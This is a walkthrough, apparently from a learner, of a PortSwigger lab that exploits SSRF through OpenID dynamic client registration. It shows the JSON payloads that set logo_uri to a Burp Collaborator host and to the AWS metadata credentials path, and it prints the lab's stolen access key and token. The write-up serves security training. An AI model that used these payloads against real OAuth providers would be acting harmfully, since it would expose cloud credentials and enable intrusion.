 # SSRF via OpenID dynamic client registration

## This lab allows client applications to dynamically register themselves with the [OAuth](https://portswigger.net/web-security/oauth) service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.

## To solve the lab, craft an [SSRF attack](https://portswigger.net/web-security/ssrf) to access `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/` and steal the secret access key for the OAuth provider's cloud environment.

## You can log in to your own account using the following credentials: `wiener:peter`

##### Note: this lab need burpsuite pro

---

step 1

login to account and logout
then login again and see HTTP history

![](images/lab5_http_history_first_login_2nd_login.jpg)

step 2
click on auth?client_id in HTTP history

![](images/lab5_http_history_auth_client_id.jpg)

step 3

##### Hint:

![](images/lab5_hint_openId_connect.jpg)

step 4

my outh url: `oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net`
add` /.well-known/openid-configuration` at the end of url

```
https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/.well-known/openid-configuration
```

open this url into browser you will get json file with bunch on details search reg

![](images/lab5_well_known_configuration.jpg)

you can see same result in burpsuite
and search registration_endpoint
![](images/lab5_well_known_configuration_http_history.jpg)

now open /reg link
`https://oauth-0a4700430308cd268131e6cd02ed00ac.oauth-server.net/reg`

![](images/lab5_auth_reg_invalid_request.jpg)

in burpsuite

![](images/lab5_reg_404_not_found_http_history.jpg)

step 5
send /reg to repeater change get request to post
send request you will get error only json supported

![](images/lab5_change_get_to_post_into_reg.jpg)

step 6
test with json
but again error but this time redirect_uri mandatory

![](images/lab5_post_request_redirect_mandatory.jpg)

step 7
add redirect_uris error because it must be in array format

![](images/lab5_redirect_uris_error_array.jpg)

step 8
add redirect_uris in array format
you will get 201 response

![](images/lab5_redirect_uris_201_success.jpg)

step 9

##### HINT:

![](images/lab5_unprotected_dynamic_client_registration.jpg)

---

step 10
find client with id and with logo
it will be HTTP history when first time webpage load

![](images/lab5_client_with_id_with_logo.jpg)

---

step 11

got to step 8
add logo_uri into json

```json
{
  "redirect_uris": ["https://example.com"]
}
```

use burp collaborator
`"logo_uri": "https://client-app.com/logo.png"`
change url with burp collaborator url
`"logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"`

```json
{
  "redirect_uris": ["https://example.com"],
  "logo_uri": "z22ge24u498d6k8ho7kbnd9j0a61urig.oastify.com"
}
```

add the above payload and send request you will get client id

![](images/lab5_add_burp_collab_url_in_logo_uri.jpg)

---

step 12

use **\_\_\_\_**

step 10
replace client id with this client id send request

![](images/lab5_change_client_id_200_response.jpg)

burp collaborator poll

![](images/lab5_burp_collab_http_response.jpg)

---

step 13
go to /reg into repeater
add logo_uri : `http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/`
final payload look like

```json
{
  "redirect_uris": ["https://example.com"],
  "logo_uri": "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
}
```

![](images/lab5_admin_logo_uri_client_id_generated.jpg)

---

step 14

got to /client into repeater
replace client id from **\_\_\_\_**

step 13

![](images/lab5_client_with_admin_client_id_scect_key_generated.jpg)

---

step 15

```json
{
  "Code": "Success",
  "LastUpdated": "2023-06-08T14:13:01.577025071Z",
  "Type": "AWS-HMAC",
  "AccessKeyId": "ed6ZtIT2sQtcEBMadHym",
  "SecretAccessKey": "hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW",
  "Token": "GEmC2Vk1YRCttuaokzEcF6cNvKdLrUgw2P4U4xtinAbK8a56Bm9USOa6Qo0a3cUaQUwBSX0NO5Dr2RCcB7EhMa9kuSLOnoEGBnFu7CJLDYY3BMGcblE3iTngdifFM0XjBce8MqZtCdm95E3oRiPnZvac09KUg2kxOCTwgUpQOpOLQE3UivyHtgJutlmRRN2yGYl0DhVotyiam7B6yN5tnqDd7rnxw9fMKMrM5VZzPNuo6nzfQo9blszLJeXRzYON",
  "Expiration": "2029-06-06T14:13:01.577025071Z"
}
```

submit SecretAccessKey: `hhyXg2IbIKM4ksaOiLEsh2dIjg4BVeQaTpXyK3mW`

![](images/lab5_solved_lab.jpg)
